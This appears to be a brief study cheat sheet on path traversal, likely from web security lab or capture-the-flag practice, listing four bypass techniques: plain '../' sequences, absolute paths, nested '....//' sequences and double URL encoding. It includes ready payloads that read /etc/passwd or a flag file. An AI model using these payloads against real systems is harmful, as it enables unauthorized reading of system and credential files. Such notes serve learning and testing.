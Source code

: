 # 1. Reading arbitrary files via path traversal
If given var/www/html/images
- -> Step back to var/www/html/images../../../flag.txt
- -> Or var/www/html/images/../../../etc/passwd

# 2. Traversal blocked with absolute path bypass
If given var/www/images/?filename=a.jpg
- ->Use absolute path var/www/images/?filename=/etc/passwd

# 3. Traversal sequence stripped (bypass by nested traversal)
Use nested traversal, e.g."....//" when server block "../"
-  ->e.g. GET /image/?filename=....//....//....//etc/passwd

# 4. Traversal sequence stripped with URL decode (bypass by double URL encode)
URL encode or double URL encode for:
- URL path
- filename param in multipart/form-data request
